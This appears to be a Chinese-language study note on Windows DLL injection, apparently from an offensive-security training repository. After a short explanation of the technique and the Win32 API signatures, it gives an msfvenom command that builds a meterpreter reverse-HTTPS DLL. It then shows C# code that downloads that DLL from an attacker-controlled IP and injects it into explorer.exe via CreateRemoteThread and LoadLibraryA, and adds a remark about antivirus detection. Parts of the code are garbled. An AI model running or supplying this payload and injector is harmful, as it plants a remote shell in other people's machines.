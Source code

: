 ## DLL Injection Theroy
原理：简单来说，就是在目标进程中开辟一块堆空间，用于存储DLL的路径，之后使用CreateRemoteThread在目标进程中开启远程线程。

步骤：
- 获取目标进程PID。
- 提升Dropper进程权限。
- 打开目标进程。
- 在目标进程内开辟缓冲区，用来存储DLL的路径。
- 找到目标进程中加载的kernel32.dll的句柄，通过该句柄来获取目标进程中kernel32.dll的导出函数LoadLibrary函数的地址。
- 通过CreateRemoteThread函数来调用LoadLibrary，使目标进程加载Payload DLL。

参考：https://bbs.pediy.com/thread-224078.htm

当process想使用dll中win32api时，会使用LoadLibrary api
所以核心思想是在remote process中定位LoadLibrary内存位置，然后将我们想加载的dll内存位置使用CreateRemoteThread创建新的通道进行连接
LoadLibrary
 ```
 HMODULE LoadLibraryA(
   LPCSTR lpLibFileName
 );
 ```
CreateRemoteThread 创建新的通道
 ```C#
 HANDLE CreateRemoteThread(
   HANDLE hProcess, 
   LPSECURITY_ATTRIBUTES lpThreadAttributes,
   SIZE_T dwStackSize,
   LPTHREAD_START_ROUTINE lpStartAddress,
   LPVOID lpParameter,
   DWORD dwCreationFlags,
   LPDWORD lpThreadId
 );
 ```
 DllMain
 ```C#
 BOOL WINAPI DllMain(
   _In_ HINSTANCE	hinstDll,
   _In_ DWORD		fdwREason.
   _In_ LpVOID		lpvReserved
 
 )
 ```

 ## DLL Injection With C#
Kali Machine
```Linux
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST= Lport=443 -f dll -o /var/www/html/met.dll
```

```C#
using System.Runtime.InteropServices; 
using System.Text;

namespace Inject
{  
	class Program
	{
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)] 
		static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
		
		[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
		
		[DllImport("kernel32.dll")]
		static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte\[\] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten；
		
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
		
		[DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
		static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
		
		[DllImport("kernel32.dll", CharSet = CharSet.Auto)]
		public static extern IntPtr GetModuleHandle(string lpModuleName);

		static void Main(string[] args) 
		{
			String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
			String dllName = dir + "\\\\met.dll";
			WebClient wc = new WebClient();
			wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
		
			Process[] expProc = Process.GetProcessesByName("explorer"); int pid = expProc\[0\].Id;
		
			IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40); IntPtr outSize;
			Boolean res = WriteProcessMemory(hProcess,addr,Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
			IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),"LoadLibraryA");
			IntPtr hThread = CreateRemoteThread(hProcess,IntPtr.Zero,0,loadLib,addr,0,IntPtr.Zero); 
		}
	}
} 

```

但这个操作会将dll写到硬盘，容易被杀毒软件查杀